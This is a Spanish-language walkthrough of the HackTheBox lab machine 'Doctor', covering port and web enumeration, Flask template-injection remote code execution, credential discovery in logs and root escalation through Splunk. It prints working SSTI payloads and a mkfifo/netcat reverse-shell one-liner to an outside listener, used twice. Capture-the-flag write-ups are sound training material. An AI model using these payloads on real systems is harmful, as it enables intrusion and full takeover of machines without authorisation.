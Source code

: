 # Máquina "Doctor" de HackTheBox

## Características

- Linux
- Easy
- External
- Splunk
- Penetration Tester Level 1
- SSTI Exploitation
- A03:2021-Injection
- Enumeration
- Remote Code Execution
- Defense Mechanisms
- Clear Text Credentials
- SIEM
- Log Analysis
- Misconfiguration
- SSTI
- SSTI popen (RCE)
- Bypassing de command injection (RCE)
- Abusing ADM group finding credentials in request logs
- Splunk exploitation en la escalada

## Útil en

- eWPT
- eWPTX v2
- OSWE

**IP:** 10.10.10.209

## Escaneo de puertos

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.209 -oG allPorts
```

```bash
sudo nmap -sCV -p22,80,8089 10.10.10.209 -oN targeted
```

### Resultado del escaneo

```
22/tcp   open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 59:4d:4e:c2:d8:cf:da:9d:a8:c8:d0:fd:99:a8:46:17 (RSA)
|   256 7f:f3:dc:fb:2d:af:cb:ff:99:34:ac:e0:f8:00:1e:47 (ECDSA)
|_  256 53:0e:96:6b:9c:e9:c1:a1:70:51:6c:2d:ce:7b:43:e8 (ED25519)
80/tcp   open  http     Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Doctor
8089/tcp open  ssl/http Splunkd httpd
|_http-server-header: Splunkd
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: splunkd
| ssl-cert: Subject: commonName=SplunkServerDefaultCert/organizationName=SplunkUser
| Not valid before: 2020-09-06T15:57:27
|_Not valid after:  2023-09-06T15:57:27
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Reconocimiento web

Vemos el puerto 80 y 8089, así que les lanzamos un whatweb:

```bash
whatweb http://10.10.10.209
```

**Resultado:**
```
http://10.10.10.209 [200 OK] Apache[2.4.41], Bootstrap, Country[RESERVED][ZZ], Email[info@doctors.htb], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.10.10.209], JQuery[3.3.1], Script, Title[Doctor]
```

```bash
whatweb http://10.10.10.209:8089
```

**Resultado:**
```
ERROR Opening: http://10.10.10.209:8089 - Connection reset by peer
```

Como vemos en la descripción de nmap del puerto 8089, nos muestra SSL y no HTTP, así que enviaremos HTTPS:

```bash
whatweb https://10.10.10.209:8089
```

**Resultado:**
```
https://10.10.10.209:8089 [200 OK] Country[RESERVED][ZZ], HTTPServer[Splunkd], IP[10.10.10.209], Title[splunkd], UncommonHeaders[x-content-type-options], X-Frame-Options[SAMEORIGIN]
```

## Configuración del archivo hosts

Agregamos al archivo `/etc/hosts`. Así que podemos tener un dominio en el puerto 80, podemos hacer virtual hosting. Ingresamos los datos de 3 formas: una con la IP, otra con el dominio y la otra con la IP al puerto 8089:

```bash
echo "10.10.10.209 doctors.htb doctor.htb" >> /etc/hosts
```

![Página web principal](/secciones/posts/imagenes/doctor/web1.png)

## Investigación de Splunk

Vemos los 4 links y nada. Continuamos lanzando `searchsploit splunk`. Luego buscamos en Google y podemos ver un local privilege escalation en:

https://github.com/cnotin/SplunkWhisperer2

Nos pide usuario y clave, así que lo dejaremos guardado.

## Análisis de la aplicación web

Volvemos a la página principal, nos registramos y vemos un panel con un número:

```
http://doctors.htb/home?page=1
```

Que podemos modificarlo para testear:

```
http://doctors.htb/home?page=../../../../.././../etc/passwd
```

Veremos el código fuente y podemos ver que hay una referencia a un directorio `<a class="nav-item nav-link" href="/home">Home</a>` y no se ve nada, así que agregamos al `/etc/hosts`.

```bash
whatweb http://doctors.htb
```

**Resultado:**
```
http://doctors.htb [302 Found] Cookies[session], Country[RESERVED][ZZ], HTTPServer[Werkzeug/1.0.1 Python/3.8.2], HttpOnly[session], IP[10.10.10.209], Python[3.8.2], RedirectLocation[http://doctors.htb/login?next=%2F], Title[Redirecting...], Werkzeug[1.0.1]
http://doctors.htb/login?next=%2F [200 OK] Bootstrap[4.0.0], Country[RESERVED][ZZ], HTML5, HTTPServer[Werkzeug/1.0.1 Python/3.8.2], IP[10.10.10.209], JQuery, PasswordField[password], Python[3.8.2], Script, Title[Doctor Secure Messaging - Login], Werkzeug[1.0.1]
```

## Explotación SSTI

Ahora sí podemos ver, y al ver con Wappalyzer nos muestra que corre Flask. Lanzamos esta payload:

```python
{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}  
```

![SSTI Payload](/secciones/posts/imagenes/doctor/payload.webp)

¡Tenemos RCE! Ahora, probé una línea de shell reverso de la hoja de trucos de shell reverso de PentestMonkey. Esta fue mi carga útil final:

```python
 {request.application.__globals__.__builtins__.__import__('os').popen('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.4 1234 >/tmp/f').read()} 
```

## Acceso inicial

Configuramos netcat y lanzamos:

```bash
nc -lvnp 1234
```

Tenemos shell, la configuramos y seguimos.

A continuación, utilicé `ssh-keygen` para crear un `id_rsa` para la web y luego inicié sesión a través de SSH.

## Escalada horizontal

Una vez dentro, lanzamos `id` y podemos ver que tenemos el grupo `adm`. Una búsqueda rápida me dijo que los usuarios del grupo `adm` pueden leer los archivos `/var/log`.

Así que vamos y ejecutamos:

```bash
grep -ir password * 2>/dev/null
```

Es posible que hayamos encontrado una posible contraseña: `Guitar123`. Intentamos ingresar con el usuario `shaun` y entramos con éxito.

Sacamos la flag de user.

## Escalamiento de privilegios

Ejecuté `ps aux` y vi que root está ejecutando el servidor splunkd:

```bash
ps aux | grep splunk
```

Usaremos el exploit nuevamente, pero esta vez desde shaun:

```bash
python3 PySplunkWhisperer2_remote.py --host doctor.htb --port 8089 --username shaun --password Guitar123 --payload "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.4 1234 >/tmp/f" --lhost 10.10.14.4
```

¡Y somos root!

## Nota  

Algunos de los writeups en esta página pueden tener contenido de otras páginas o tener muy pocas imágenes. Esto se debe a que en algunas de las máquinas que realicé, no tomé los apuntes o no tomé capturas de pantalla, así que he decidido buscar varios writeups y agregar lo que esté mejor explicado en cada uno para plasmarlo aquí. También, si encuentras faltas de ortografía o cualquier error, puedes contactarme a mi correo.


